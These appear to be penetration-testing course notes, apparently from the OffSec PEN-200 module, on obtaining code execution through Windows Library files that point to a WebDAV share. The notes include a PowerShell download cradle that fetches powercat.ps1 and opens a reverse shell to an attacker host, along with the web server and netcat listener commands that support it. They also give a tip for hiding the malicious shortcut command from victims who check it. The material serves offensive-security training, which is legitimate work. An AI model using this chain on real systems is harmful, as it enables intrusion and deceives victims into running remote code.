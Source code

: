 #### Double-Clicking the Windows Library file
![[Pasted image 20230605160452.png]]
When we open the directory in Explorer, we find the previously-created **test.txt** file we placed in the WebDAV share. Therefore, the library file works and embeds the connection to the WebDAV share.

*As an added bonus, the path in the navigation bar only shows **config** without any indication that this is actually a remote location. This makes it a perfect first stage for our client-side attack.*

#### Modified XML code of config.Library-ms
![[Pasted image 20230605160649.png]]
A new tag appeared named _serialized_.[23](https://portal.offsec.com/courses/pen-200-2023/books-and-videos/modal/modules/client-side-attacks/abusing-windows-library-files/obtaining-code-execution-via-windows-library-files#fn23) The tag contains base64-encoded information about the location of the _url_ tag. Additionally, the content inside the _url_ tags has changed from **`http://192.168.119.2`** to **`\\192.168.119.2\DavWWWRoot`**.

*TIP: To avoid running into any issues when performing this attack, we can reset the file to its original state by pasting the contents of listing 17 into Visual Studio Code*

#### PowerShell Download Cradle and PowerCat Reverse Shell Execution
```PowerShell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.197:8000/powercat.ps1');
powercat -c 192.168.119.3 -p 4444 -e powershell"
```
![[Pasted image 20230605160942.png]]

*TIP: If we expect that our victims are tech-savvy enough to actually check where the shortcut files are pointing, we can use a handy trick. Since our provided command looks very suspicious, we could just put a delimiter and benign command behind it to push the malicious command out of the visible area in the file's property menu. If a user were to check the shortcut, they would only see the benign command.*

#### In the next window, let's enter **automatic_configuration** as the name for the shortcut file and click _Finish_ to create the file

#### On our Kali machine, let's start a Python3 web server on port 8000 where **powercat.ps1** is located
```Shell
python3 -m http.server 8000
```

#### Start a Netcat listener on port 4444
```Shell
nc -lnvp 4444
```
#### Additional Powercat Info ####
